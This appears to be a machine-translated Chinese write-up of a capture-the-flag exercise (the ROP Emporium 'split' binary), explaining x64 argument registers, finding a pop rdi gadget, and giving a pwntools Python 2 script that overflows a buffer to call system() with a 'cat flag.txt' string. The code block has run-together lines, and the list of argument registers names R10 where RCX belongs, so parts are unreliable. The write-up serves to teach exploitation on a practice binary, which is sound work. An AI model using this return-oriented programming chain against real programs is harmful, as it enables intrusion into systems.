> 如果我们能够提供一个参数，告诉系统函数执行“cat /bin/flag.txt ”,那么在这一点上，挑战就被阐明了。我们已经找到了指向“cat /bin/flag.txt”的地址。这足够了吗？不…我们应该执行它。所以我们应当提供内部系统功能。函数的参数以相反的顺序(从右到左)推入堆栈。此时，该函数将其参数弹出堆栈并开始工作。
> 
> 64 位版本的寄存器命名为:
> 
> rax —寄存器 a 扩展
> rbx —寄存器 b 扩展
> rcx —寄存器 c 扩展
> rdx —寄存器 d 扩展
> rbp —寄存器基址指针
> rsp —寄存器堆栈指针
> rsi —寄存器源索引
> rdi —寄存器目标索引
> 
> x64 中函数的参数在寄存器 RDI、RSI、RDX、R10、R8 和 R9 中传递，第一个参数在 RDI 中。我们正在研究 x64 二进制文件，我们可以看到我们应该将我们的**单个参数传递给 RDI 寄存器**中的 system()。

我们将通过将地址放入堆栈，然后调用 pop rdi 来实现这一点。这将是我们第一次使用 **ROP 小工具！**



找到小工具

# 剥削

现在是时候创建一个漏洞了，它将标志返回给我们。这很简单，因为我们已经找到了我们需要的一切。我恭敬地建议您使用 python2 来构建您的漏洞。这就是我觉得舒服和简单的地方。

> 1.填充缓冲区
> 
> 2.POP rdi
> 
> 3.将单个参数(" cat /bin/flag.txt ")传递给 system()
> 
> 4.完成的

```
from pwn import *

print("**************** Check-sec ***************")                       xrx = ELF('./split')                       print("******************************************")payload   = "A" * 40payload  += p64(0x004007c3) # pop rdipayload  += p64(0x00601060) # /bin/cat flag.txtpayload  += p64(0x00400560) # sytem()p = xrx.process()
print p.recvuntil(">")
p.clean()p.sendline(payload)
p.recv()
p.interactive()
print p.clean()
```

剥削的艺术更上一层楼。运行漏洞检查看看会发生什么…



ROPE{a_placeholder_32byte_flag！}

就这样…我们已经有效地改变了预期的执行流并找到了标志。

> **提醒**
> 这些只是展示我们如何绕过支持 NX 的二进制安全性的基础知识。根据你的冥想，你可以出乎意料地利用它。**这篇文章旨在用一个简单的例子来适应 ROP。**

> 如果你高兴的话，最好和我联系。在接下来的文章中，我们将谈论一些更伟大的事情…！！

***随时在 Twitter 上连接*** [@7h3h4ckv157](https://twitter.com/7h3h4ckv157)


**感谢阅读..！！**😉